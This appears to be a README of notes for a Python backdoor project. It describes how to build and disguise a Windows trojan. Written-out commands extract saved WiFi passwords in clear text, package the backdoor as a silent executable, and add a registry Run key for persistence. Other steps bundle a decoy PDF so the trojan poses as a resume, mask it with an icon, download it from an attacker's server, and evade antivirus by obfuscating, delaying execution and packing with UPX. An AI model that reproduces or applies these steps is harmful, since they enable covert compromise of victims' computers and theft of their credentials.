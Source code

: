 ## py-backdoor
- Initial Execution
- ![Screenshot 2024-08-08 125205.png](./assets/Screenshot_2024-08-08_125205_1723103941525_0.png)
- Execution after Boot [ Windows-Persistence]
- ![Screenshot 2024-08-08 125543.png](./assets/Screenshot_2024-08-08_125543_1723103929817_0.png)
### </>
- **WiFi-Password Extraction**
	- To show all networks 
	    ``` 
        netsh wlan show profile
        ```
	- To display details of a particular network - 
    	``` 
        netsh wlan show profile <network name> key=clear 
        ```
### Packaging - Download and Execute
- **pyinstaller**
    - **note:** architecture of the target and the attack machine must be the same for this to work
		- ```
		  pyinstaller client.py --onefile
          ```
		- ```
		  pyinstaller backdoor.py --onefile --noconsole -n client.exe
		  ```
- **Silent Execution**
    - `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console 
	    ``` 
        pyinstaller client.py --onefile --noconsole 
        ```
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
			  ```
			  DEVNULL = open(os.devnull,'wb')
                          # All I/O will be redirected to DEVNULL
			  return subprocess.check_output(command, 
							shell=True,
							stderr=DEVNULL,
							stdin=DEVNULL)
			  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- ```
		  reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f 
          ```
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target needs an internet connection when running the trojan
	- Malware files have to be hosted
### Packaging - Combine Dummy w/ Backdoor
- ```
   pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe
  ```
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
   	- `_MEIPASS` : the path to the _internal folder within the bundle [ in this case, the Non-Malicious PDF ]
   	- The Backdoor also checks if the current process is being run by a `user` or being run automatically on startup; If it is run by a `user` the PDF file is opened 
- **mask executable** with `.ICO`
	```
	pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>
    ```
	- ![image.png](./assets/image_1722969936363_0.png)
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	- ```
	  ./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe
      ```
- `IDAPro` can be used to modify the binary itself
